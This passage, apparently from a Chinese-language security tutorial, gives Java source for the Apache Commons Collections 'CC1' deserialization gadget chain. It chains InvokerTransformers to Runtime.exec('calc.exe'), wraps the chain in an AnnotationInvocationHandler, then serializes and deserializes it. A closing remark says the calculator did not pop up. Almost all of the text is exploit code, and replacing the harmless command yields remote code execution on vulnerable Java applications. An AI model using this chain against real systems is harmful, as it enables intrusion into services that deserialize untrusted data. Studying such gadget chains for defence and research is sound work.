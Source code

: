 ```java
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
import java.util.StringTokenizer;
import java.util.HashMap;

public class CC1_3 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),

        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("test", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        //Retention.class 定义元批注以确定批注的保留范围。
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        FileOutputStream fileOutputStream = new FileOutputStream("./cc1.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(handler);
        objectOutputStream.close();
        fileOutputStream.close();

        FileInputStream fileInputStream = new FileInputStream("./cc1.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        objectInputStream.readObject();
        objectInputStream.close();
        fileInputStream.close();
    }
}

```
上述代码运行后发现并没有成功弹出计算器
![image.png](http://moonsec.top/articlepic/1d6671fd66dfd2ebfc5f953d61787d97.png)
